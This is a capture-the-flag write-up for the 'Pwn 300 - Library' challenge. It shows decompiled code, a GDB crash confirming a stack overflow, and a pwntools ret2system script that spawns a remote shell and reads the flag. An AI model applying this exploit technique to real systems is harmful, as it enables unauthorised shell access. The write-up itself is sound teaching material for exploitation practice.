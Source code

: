 # Pwn 300 - Library

We are given a nc server, ```nc 40.76.33.15 41141```, and a 32 bit binary. 

Here is the pseudocode:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("echo 'Good luck on your final pwning voyage of the competition\n'");
  vuln();
  return 0;
}

char *vuln()
{
  int s; // [esp+6h] [ebp-62h]
  __int16 v2; // [esp+Ah] [ebp-5Eh]
  int v3; // [esp+5Ch] [ebp-Ch]

  puts("You have input, find an exploit that would make John Purdue proud");
  s = 0;
  v3 = 0;
  memset(
    (void *)((unsigned int)&v2 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&s - ((unsigned int)&v2 & 0xFFFFFFFC) + 90) & 0xFFFFFFFC) >> 2));
  return fgets((char *)&s, 150, stdin);
}
```

Again, we have an overflow in the vuln function, which we can confirm in GDB:

```
root@ctf:~# gdb library
Reading symbols from library...(no debugging symbols found)...done.
(gdb) r
Starting program: /root/library
Good luck on your final pwning voyage of the competition
 0:ssh*                                                                                                14/10  21:42:51 You have input, find an exploit that would make John Purdue proud
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999

Program received signal SIGSEGV, Segmentation fault.
0x30305a5a in ?? ()
(gdb)
```

Segmentation fault means that the program tried to access invalid memory. In this case, eip is 0x30305a5a, which is invalid memory. That's because it is ZZ00, our input.

So now we control eip, but sadly there's no print flag function. Instead, we can reuse code. Let's take a look at the assembly for main:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804849b <+0>:     lea    0x4(%esp),%ecx
   0x0804849f <+4>:     and    $0xfffffff0,%esp
   0x080484a2 <+7>:     pushl  -0x4(%ecx)
   0x080484a5 <+10>:    push   %ebp
   0x080484a6 <+11>:    mov    %esp,%ebp
   0x080484a8 <+13>:    push   %ecx
   0x080484a9 <+14>:    sub    $0x4,%esp
   0x080484ac <+17>:    sub    $0xc,%esp
   0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   0x080484b9 <+30>:    add    $0x10,%esp
   0x080484bc <+33>:    call   0x80484ce <vuln>
   0x080484c1 <+38>:    mov    $0x0,%eax
   0x080484c6 <+43>:    mov    -0x4(%ebp),%ecx
   0x080484c9 <+46>:    leave
   0x080484ca <+47>:    lea    -0x4(%ecx),%esp
   0x080484cd <+50>:    ret
End of assembler dump.
(gdb)
```

These two lines are of interest:

```
0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   ```
   
See how in the pseudocode ```system("echo 'Good luck on your final pwning voyage of the competition\n'");``` is called? That's how you do it in assembly. The address of the string is pushed onto the stack, then the return address is pushed with the call function, then the program jumps to system.

So the stack would look like: ```<ret address> <argument>``` when system is called. We can replicate the stack to have the first argument be "/bin/sh" because we have a stack buffer overflow. The format would have to be ```<anything because we don't care about return address> <address of /bin/sh string>```.

Luckily the problem author was nice enough to include a /bin/sh string in the binary, although it is still solvable without:

```
.data:0804A024                 public g_helpful_string
.data:0804A024 g_helpful_string db '/bin/sh',0
```

So our input would have to be ```<padding> <system address> <anything> <address of binsh string>```. Here is my code to do so:

```python
from pwn import *

#r = process("./library")
r = remote("40.76.33.15", 41141)
payload = "A"*102
binsh = 0x0804A024
system = 0x8048370

payload += p32(system)
payload += "AAAA"
payload += p32(binsh)
r.sendline(payload)
r.interactive()
```

```
root@ctf:~# python solve.py
[+] Opening connection to 40.76.33.15 on port 41141: Done
[*] Switching to interactive mode
Good luck on your final pwning voyage of the competition

$ id
uid=1005(library) gid=1005(library) groups=1005(library)
$ cat home/library/flag.txt
b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}
```

## Flag
### b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}

